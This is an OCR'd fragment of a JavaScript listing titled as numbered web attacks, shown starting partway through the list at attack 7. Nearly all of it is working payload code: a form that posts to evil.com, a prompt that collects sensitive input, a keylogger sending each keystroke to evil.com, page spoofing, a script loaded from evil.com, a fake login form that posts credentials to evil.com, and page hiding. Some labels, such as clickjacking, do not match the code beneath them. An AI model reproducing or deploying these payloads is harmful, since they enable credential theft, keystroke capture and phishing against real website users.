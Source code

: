 ```javascript

document.forms[0].action = 'http://evil.com/steal';

document.forms[0].submit();



// Attack 7: Data Injection

var userInput = prompt('Please enter your sensitive information:');

document.getElementById('hiddenField').value = userInput;



// Attack 8: Keylogging

document.addEventListener('keydown', function(event) {

  var key = String.fromCharCode(event.keyCode);

  var url = 'http://evil.com/log?key=' + encodeURIComponent(key);

  var img = new Image();

  img.src = url;

});



// Attack 9: Content Spoofing

document.body.innerHTML = '<h1>Welcome to My Legitimate Website</h1>';



// Attack 10: Remote File Inclusion

var remoteScript = document.createElement('script');

remoteScript.src = 'http://evil.com/evil.js';

document.body.appendChild(remoteScript);



// Attack 11: Phishing

var fakeLoginForm = document.createElement('form');

fakeLoginForm.action = 'http://evil.com/steal';

fakeLoginForm.innerHTML = '<input type="text" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password">';

document.body.appendChild(fakeLoginForm);



// Attack 12: Clickjacking

document.body.style.display = 'none';
```